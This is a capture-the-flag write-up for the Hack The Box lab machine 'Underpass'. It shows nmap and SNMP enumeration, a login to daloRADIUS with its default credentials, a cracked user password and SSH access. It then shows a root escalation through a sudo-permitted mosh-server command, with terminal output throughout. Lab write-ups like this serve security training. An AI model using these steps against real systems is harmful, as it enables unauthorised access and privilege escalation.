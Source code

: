 ```yaml
---
title: Underpass
layout: post
released: 2024-12-21
creators: dakkmaddy
pwned: true
tags: 
  - os/linux
  - diff/easy
category:
  - HTB
description: Underpass is running a default apache website. If we check udp ports we find that a daloradius is running. Looking through the source of daloradius we find a couple of login pages and default credentials. Using these credentials we login to a dashboard and find credentials for svcMosh. We use his credentials to ssh on the box. svcMosh can run Mosh-server as root which we can use to spawn a root terminal.
image: https://labs.hackthebox.com/storage/avatars/456a4d2e52f182847fb0a2dba0420a44.png
cssclass: custom_htb
---
```

![Underpass icon](https://labs.hackthebox.com/storage/avatars/456a4d2e52f182847fb0a2dba0420a44.png)

# Information Gathering
As usual let's start off with an `nmap` scan.
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
When we visit the website all we're greeted with is the default `apache` website.
![Default apache website](/assets/img/img_Underpass/Underpass-1746437564868.png)

So let's scan `UDP` ports.
```
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info:
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: c7ad5c4856d1cf6600000000
|   snmpEngineBoots: 31
|_  snmpEngineTime: 2d15h28m13s
| snmp-sysdescr: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
|_  System uptime: 2d15h28m13.71s (22849371 timeticks)
Service Info: Host: UnDerPass.htb is the only daloradius server in the basin!
```

Looking up the term `daloradius` we see that it's a web platform to manage ISP deployments.

If we try to visit: [http://10.10.11.48/daloradius](http://10.10.11.48/daloradius). We get a forbidden webpage.

![Daloradius Forbidden](/assets/img/img_Underpass/Underpass-1746440428813.png)

Since [daloradius](https://github.com/lirantal/daloradius) is open source, we can look through directories in the source and check if they exist on the box.

Looking through the source we can see a login page: `/app/users/login.php`
![Daloradius Login Path](/assets/img/img_Underpass/Underpass-1746440607075.png)

If we visit [http://10.10.11.48/daloradius/app/users/login.php](http://10.10.11.48/daloradius/app/users/login.php) we are greeted by said login page.

![Daloradius User Login Page](/assets/img/img_Underpass/Underpass-1746440648730.png)

# User
Looking through the [wiki](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS#testing-the-infrastructure) we find the default credentials: `administrator`:`radius`. However, if we try this we see that we cannot login.

![Cannot Login Daloradius User](/assets/img/img_Underpass/Underpass-1746440793774.png)

If we take a look through the [wiki](https://github.com/lirantal/daloradius/wiki/Installing-daloRADIUS#installing-daloradius) again we find that it is mentioned in the previous sections the different endpoints for `operator` and `user`.

```bash
/etc/apache2/envvars
# daloRADIUS users interface port
export DALORADIUS_USERS_PORT=80

# daloRADIUS operators interface port
export DALORADIUS_OPERATORS_PORT=8000

# daloRADIUS package root directory
export DALORADIUS_ROOT_DIRECTORY=/var/www/daloradius  

# daloRADIUS administrator's email
export DALORADIUS_SERVER_ADMIN=admin@daloradius.local
```

Let's take a look at the source code again and find the directory `/app/operators/login.php`.

![Daloradius Operators Path](/assets/img/img_Underpass/Underpass-1746441057718.png)

If we visit [http://10.10.11.48/daloradius/app/operators/login.php](http://10.10.11.48/daloradius/app/operators/login.php) we are greeted with the exact same login page.

![Daloradius Operators Login](/assets/img/img_Underpass/Underpass-1746442054856.png)

If we attempt to use the same default credentials: `administrator`:`radius`. We get logged into the dashboard.

![Daloradius Dashboard](/assets/img/img_Underpass/Underpass-1746442166170.png)

Looking around the app if we go to `management` and select `list users`. We can see the user: `svcMosh`.
![Daloradius Users List](/assets/img/img_Underpass/Underpass-1746442236050.png)

We're provided with what looks to be a password hash of `412DD4759978ACFCC81DEAB01B382403`. Let's crack it with [crackstation](https://crackstation.net).

![Crackstation cracking the password](/assets/img/img_Underpass/Underpass-1746442317070.png)

We find we successfully get the credentials: 

`svcMosh`:`underwaterfriends`

Attempting to use these credentials to `ssh` into the machine is successful!

```bash
 ssh svcMosh@10.10.11.48
The authenticity of host '10.10.11.48 (10.10.11.48)' can't be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.48' (ED25519) to the list of known hosts.
svcMosh@10.10.11.48's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon May  5 10:51:36 AM UTC 2025

  System load:  0.0               Processes:             226
  Usage of /:   61.3% of 6.56GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon May  5 08:03:59 2025 from 10.10.14.24
svcMosh@underpass:~$
```

Just like that we have `User`!

```bash
svcMosh@underpass:~$ ls -la
total 36
drwxr-x--- 5 svcMosh svcMosh 4096 Jan 11 13:29 .
drwxr-xr-x 3 root    root    4096 Dec 11 16:06 ..
lrwxrwxrwx 1 root    root       9 Sep 22  2024 .bash_history -> /dev/null
-rw-r--r-- 1 svcMosh svcMosh  220 Sep  7  2024 .bash_logout
-rw-r--r-- 1 svcMosh svcMosh 3771 Sep  7  2024 .bashrc
drwx------ 2 svcMosh svcMosh 4096 Dec 11 16:06 .cache
drwxrwxr-x 3 svcMosh svcMosh 4096 Jan 11 13:29 .local
-rw-r--r-- 1 svcMosh svcMosh  807 Sep  7  2024 .profile
drwxr-xr-x 2 svcMosh svcMosh 4096 Dec 11 16:06 .ssh
-rw-r----- 1 root    svcMosh   33 May  2 18:02 user.txt
```

# Root
Checking for our `sudo` permission we notice we are able to run `mosh-server` as `root`.

```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

[mosh](https://mosh.org/) server is part of the `Mobile Shell` suite which is a remote terminal application that runs through `UDP`.

Looking at the [usage](https://mosh.org/#usage) for `mosh` we can see that we can specify the server binary.

![Mosh usage](/assets/img/img_Underpass/Underpass-1746442684093.png)

Let's try to do this to run mosh using the following command.

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

We get the following output.

```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
The authenticity of host 'localhost (<no hostip for proxy command>)' cant be established.
ED25519 key fingerprint is SHA256:zrDqCvZoLSy6MxBOPcuEyN926YtFC94ZCJ5TWRS0VaM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Warning: SSH_CONNECTION not found; binding to any interface.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Mon May  5 10:58:19 AM UTC 2025

  System load:  0.0               Processes:             233
  Usage of /:   61.2% of 6.56GB   Users logged in:       1
  Memory usage: 12%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



root@underpass:~#
```

Just like that we have root!